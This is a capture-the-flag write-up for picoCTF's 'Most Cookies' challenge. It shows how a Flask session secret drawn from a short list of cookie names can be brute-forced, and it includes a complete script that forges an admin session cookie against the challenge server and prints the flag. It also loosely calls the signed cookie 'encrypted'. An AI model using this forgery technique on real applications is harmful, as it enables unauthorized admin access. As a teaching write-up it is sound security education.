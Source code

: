 # Most Cookies
### Authored by Katrina Lee

![image](challenge.PNG)

## Introduction

It's another cookie manipulation challenge!! Woo-hoo! To learn the basics of cookie manipulation with Chrome DevTools, take a look at [my writeup](../Cookies/README.md) for the `Cookies` challenge.

Okay. We know that the server is using [Flask session cookies](https://overiq.com/flask-101/sessions-in-flask/), so let's do some research on how they are encrypted and how secure they are. The cookie is divided into three parts, each separated by a period (`.`). Looking at `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`, for example, we have:
* `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9` - **the session data** - a dictionary encoded in [Base64](https://www.base64decode.org/)
* `YFJUTg` - **the timestamp**, which tells the server when the data was last updated
* `P2yjtXbLscemve2adpeyuJA3WBU` - **the [SHA-1 cryptographic hash](https://en.wikipedia.org/wiki/SHA-1)** - calculated using the session data, timestamp, and secret key (`app.secret_key` in the Flask app script)

Aha! There's the vulnerability! The "secure" Flask cookie is only as secure as its secret key. If we know the secret key, we can generate a cookie with our own session data, tricking the server into thinking that it's valid.

Great. Now, let's peek into the [server.py](server.py) file provided to see if we can figure out the secret key. On lines 6 - 7, we have the following code:
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
It seems that the secret key is simply being generated by randomly selecting a cookie name from the `cookie_names` list! Well, that's wonderful, because all we have to do is try each of the cookie names as the secret key until one of them is considered valid!

Let's keep looking through `server.py`. Nothing really stands out until we get to the `flag()` function at line 43. If we request the `/display` endpoint - simply by visiting the provided URL with `/display` at the end (`http://mercury.picoctf.net:6259/display`) - the server checks to see if the `very_auth` key in the `session` dictionary has a value of `admin`. So, the (decoded) session cookie should look like this: `{"very_auth": "admin"}`. If this requirement is met, then we get the flag! Awesome!

If we do a little more research on how Flask session cookies are signed and hashed, we'll come across one major thing: the cookie is [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) with a known string: "cookie-session". Not very secure.

## Scripting

Okay, now let's write a script to get our modified session. Reminder: for every module that you do not yet have installed on your system, make sure to install it with `pip`, a package manager. For example, type `python3 -m pip install itsdangerous` into the terminal.

First, we need to install a couple of modules:
* `itsdangerous` - to unsign the old session and sign the new one with timestamps
* `flask` - to create a new session
* `hashlib` - to encrypt with session with a SHA-1 hash
* `requests` - in my `Cookies` writeup, I used the `urllib` module to work with HTTP requests, so I'll show you how to do it with `requests` for this challenge

Let's set our `URL` and `data` constants:
```
URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}
```
Let's also copy & paste the `cookie_names` list from `server.py`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

And...we got the flag! `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Resources

* [How Secure Is The Flask User Session? - miguelgrinberg.com](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session)
* [Baking Flask cookies with your secrets | by Luke Paris | Paradoxis](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

You can find the full script below or [here](most_cookies.py) as a file.

```
from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}

cookie_flavors = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]

for secret in cookie_flavors:
	try:
		signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
	except:
		continue
	break

new_session = serializer(
	secret_key=secret,
	salt="cookie-session",
	serializer=TaggedJSONSerializer(),
	signer=tsigner,
	signer_kwargs={
		"key_derivation":"hmac",
		"digest_method":hashlib.sha1
	}
).dumps(data)

response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
